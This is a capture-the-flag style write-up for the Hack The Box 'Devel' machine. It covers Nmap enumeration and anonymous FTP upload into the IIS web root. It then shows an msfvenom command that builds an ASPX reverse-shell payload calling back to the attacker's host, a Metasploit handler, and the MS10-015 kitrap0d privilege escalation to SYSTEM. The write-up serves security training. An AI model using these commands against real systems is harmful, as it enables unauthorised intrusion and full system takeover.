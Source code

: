 ```yaml
---
title: "Devel"
tags:
  - Easy
  - Windows
  - metasploit
---
```


|  | Difficulty |  |  IP Address   |  | Room Link |  |
|:-| :--------: |--|:------------: |--| :--------:|--|
|  |  Easy |  | 10.10.10.5 |  | [Devel](https://app.hackthebox.com/machines/devel) |  |

---

## Enumeration
---
### Nmap
---
We began with a full port scan and service enumeration using Nmap:

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Nmap reveals FTP allowing anonymous login and HTTP server is `Microsoft IIS 7.5` running on the target server.

### FTP
---
We logged into the FTP server via anonymous credential and discover nothing notable at this time.

```
ftp 10.10.10.5

Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49173|)
150 Opening ASCII mode data connection.
03-18-17  01:06AM       <DIR>          aspnet_client
03-17-17  04:37PM                  689 iisstart.htm
03-17-17  04:37PM               184946 welcome.png
226 Transfer complete.
```

We move onto other services for potential exploitations.

### HTTP
---
We check the website hosted on the server and are greeted by a default IIS page. Viewing the page source, we see the image source for the page is from `welcome.png`. We confirm the address `http://10.10.10.5/welcome.png` is an accessible webpage which indicates to us that we may upload a file to initiate a revershell script via FTP server.

We test this thoery by first uploading a file to the FTP server and navigate to http://10.10.10.5/test.txt to confirm the file is accessible. This confirms that the FTP service directly maps to the IIS web server.

```
ftp> put test.txt
local: test.txt remote: test.txt
229 Entering Extended Passive Mode (|||49174|)
125 Data connection already open; Transfer starting.
100% |********************************|     7      184.75 KiB/s    --:-- ETA
226 Transfer complete.
7 bytes sent in 00:00 (0.09 KiB/s)
ftp> ls
229 Entering Extended Passive Mode (|||49175|)
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          aspnet_client
03-17-17  04:37PM                  689 iisstart.htm
01-06-25  05:05AM                    7 test.txt
03-17-17  04:37PM               184946 welcome.png
226 Transfer complete.
```

![screenshot1](../assets/Devel/screenshot1.png)

## Foothold
---
To gain a foothold, we uploaded a malicious **ASPX web shell** using msfvenom to craft the payload:

```
msfvenom -p windows/meterpreter/shell_reverse_tcp LHOST=<Your_IP> LPORT=4444 -f aspx > shell.aspx
```

Upload the file via FTP:

```
ftp> put shell.aspx
local: shell.aspx remote: shell.aspx
229 Entering Extended Passive Mode (|||49183|)
125 Data connection already open; Transfer starting.
100% |*********************************************************************|  2916       47.94 MiB/s    --:-- ETA
226 Transfer complete.
```

We trigger the shell via the browser `http://10.10.10.5/shell.aspx` and set up a listener via `Metasploit` to catch the reverse shell.

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST tun0
[default LPORT was set to 4444]
run
```

We were able to gain access as `iis apppool\web`.

## Privilege Escalation
---
We use Metasploit's `post/multi/recon/local_exploit_suggester` module to identify potential privilege escalation vulnerabilities:

```
use post/multi/recon/local_exploit_suggester
set SESSION <session_number>
run

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 198 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_comhijack: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move: The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
...
```

We failed to obtain a session using the first few exploits due to IIS user not being in the `admin group`.

### MS10-015 Exploitation
---
According to NIST, [MS10-015](https://nvd.nist.gov/vuln/detail/CVE-2010-0232) is a Windows kernel privilege escalation vulnerability affecting Windows NT through Windows 7 on 32-bit systems with 16-bit application support enabled. It arises from improper validation of certain BIOS calls. Attackers can craft a malicious VDM_TIB structure in the Thread Environment Block (TEB) and invoke the NtVdmControl function to exploit the #GP trap handler (nt!KiTrap0D), enabling arbitrary code execution with system privileges.

```
msf6 exploit(windows/local/ms10_015_kitrap0d) > run

[*] Started reverse TCP handler on <Your_IP>:4444 
[*] Reflectively injecting payload and triggering the bug...
[*] Launching netsh to host the DLL...
[+] Process 3988 launched.
[*] Reflectively injecting the DLL into 3988...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (177734 bytes) to 10.10.10.5
[*] Meterpreter session 3 opened (<Your_IP>:4444 -> 10.10.10.5:49188) at 2025-01-05 23:21:01 -0500

meterpreter > shell
Process 3416 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\system
```

The user flag is in `C:\Users\babis\Desktop\user.txt` and the root flag is in `C:\Users\Administrator\Desktop\root.txt`.